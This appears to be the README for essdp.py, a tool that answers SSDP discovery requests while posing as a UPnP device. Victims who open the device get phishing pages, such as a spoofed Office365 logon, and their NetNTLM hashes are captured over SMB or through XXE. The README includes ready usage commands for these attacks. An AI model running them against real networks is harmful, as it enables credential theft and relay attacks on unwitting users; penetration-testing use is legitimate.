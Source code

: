 # Overview
This tool responds to SSDP multicast discover requests, posing as a generic UPNP device. Your spoofed device will magically appear in Windows Explorer on machines in your local network. Users who are tempted to open the device are shown a configurable phishing page. This page can load a hidden image over SMB, allowing you to capture or relay the NetNTLM challenge/response.

Templates are also provided to capture clear-text credentials via basic authentication and logon forms, and creating your own custom templates is quick and easy.

This requires no existing credentials to execute and works even on networks that have protected against Responder attacks by disabling NETBIOS and LLMNR. Any Operating System or application leveraging SSDP/UPNP can be targeted, but most of the current weaponization has been aimed at Windows 10.

![Phishing Overview](https://filedn.com/lawDInIqGS3h9zy6QM1YNQQ/essdp-phishing.mp4)

As a bonus, this tool can also detect and exploit potential zero-day vulnerabilities in the XML parsing engines of applications using SSDP/UPNP. If a vulnerable device is found, it will alert you in the UI and then mount your SMB share or exfiltrate data with NO USER INTERACTION REQUIRED via an XML External Entity (XXE) attack. 
![0-Day Overview](https://filedn.com/lawDInIqGS3h9zy6QM1YNQQ/essdp-0days.mp4)

# Usage
The most basic run looks like this:

```
essdp.py eth0
```

You need to provide the network interface at a minimum. The interface is used for both the UDP SSDP interaction as well as hosting a web server for the XML files and phishing page.

The tool will automatically update an IMG tag in the phishing page using the IP of the interface you provide. To work with challenge/response, you'll need to launch an SMB server at that interface (like Impacket). This address can be customized with the `-s` option. 

Some example scenarios:

```
# Use wlan0 for device advertisement and phishing, capturing NetNTLM and asking for clear-text
# via a spoofed Office365 logon form:
essdp.py wlan0 -t office365

# Same as above, but assuming your SMB server is running on another IP:
essdp.py wlan0 -t office365 -s 192.168.1.205

# Prompt for creds using basic auth and redirect to Azure:
essdp.py wlan0 -t microsoft-azure -u 'https://azure.microsoft.com/auth/signin/' -b

# Hope for an XXE vul to capture NetNTLM while Impacket/Responder is running on wlan0:
essdp.py wlan0 -t xxe-smb
```
